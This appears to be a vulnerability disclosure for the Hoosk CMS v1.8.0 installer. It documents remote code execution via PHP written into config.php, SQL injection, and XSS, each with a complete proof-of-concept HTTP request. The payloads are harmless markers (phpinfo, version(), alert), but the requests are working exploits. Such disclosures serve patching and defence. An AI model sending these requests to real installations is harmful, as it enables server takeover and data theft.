




hoosk

### My env

hoosk v1.8.0

php 5.6.9

Windows

### 0x01 install rce

At `install/index.php:55`，user input was saved to config.php causing RCE.


Send an request:

```
POST /install/index.php HTTP/1.1
Host: XXXXX
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 147

siteName=test&siteURL=http%3A%2F%2Fa.com%2F%27%29%3Bphpinfo%28%29%3Bexit%28%29%3B%2F%2F&dbName=hoosk&dbUserName=root&dbPass=123456&dbHost=localhost
```



We can write any php code into `config.php`




### 0x02 install SQLI

Same file as 0x01. At line 63, user input was concat to a SQL query string, causing SQL injection.

Send request:

```
POST /install/index.php HTTP/1.1
Host: xxxx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 122

siteName=',siteTitle%3dversion()%23&siteURL=http%3A%2F%2Fa.com&dbName=hoosk&dbUserName=root&dbPass=123456&dbHost=localhost
```

the final sql string would be:

```
UPDATE hoosk_settings SET siteTitle='',siteTitle=version()#' WHERE siteID=0
```

`version()` has been executed, and its result returned:




### 0x03 install xss

same as 0x02, param `siteName` also vulnerable to xss:

```
POST /install/index.php HTTP/1.1
Host: XXXX
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 122

siteName='<script>alert(1)</script>&siteURL=http%3A%2F%2Fa.com&dbName=hoosk&dbUserName=root&dbPass=123456&dbHost=localhost
```




